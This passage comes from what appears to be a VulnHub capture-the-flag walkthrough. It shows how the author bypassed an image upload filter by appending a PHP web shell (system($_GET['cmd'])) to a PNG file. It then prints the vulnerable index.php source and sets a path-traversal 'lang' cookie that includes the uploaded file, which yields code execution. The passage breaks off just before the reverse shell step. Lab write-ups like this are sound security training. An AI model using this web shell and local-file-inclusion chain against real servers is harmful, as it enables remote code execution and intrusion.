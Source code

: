 this code shows that only acceptable extension are those in `$whilelist` variable and then it md5 hash the basename (for example test.png) and upload it to `/upload` directory

by inserting the php code in the last line of a png file, the uploader allows the file to be uploaded so i used the following code :

```php
<?php system($_GET["cmd"]) ?>
```
```text
root@kali~# echo '<?php system($_GET["cmd"]) ?>' >> test.png
```
and uploaded it, in the `/upload` folder you will find the md5 hash of the file name :

![hash](https://github.com/Git-K3rnel/VulnHub/assets/127470407/357e28e8-d616-4c98-a4f6-f9a3f7d09101)

now we should find a way to execute the code, after spending some time i tried to get source code of the index.php using php filter , the php code of the page is :

```php
<?php
//Multilingual. Not implemented yet.
//setcookie("lang","en.lang.php");
if (isset($_COOKIE['lang']))
{
	include("lang/".$_COOKIE['lang']);
}
// Not implemented yet.
?>

<?php
	if (isset($_GET['page']))
	{
		include($_GET['page'].".php");
	}
	else
	{
		echo "Use this server to upload and share image files inside the intranet";
	}
?
```

## 3.Gaining Shell

Yes, there is a `LFI` vulnerability in the cookie, so add the following cookie to your browser :

```text
lang=../upload/843eb8966ba95af4e3b673970ba8ebe8.png
```
you cand do it by browser storage section or console section by `document.cookie="lang=../upload/843eb8966ba95af4e3b673970ba8ebe8.png"`

and then call the page with `cmd` parameter and a reverse shell, i used pytnhon reverse shell and url encoded it :
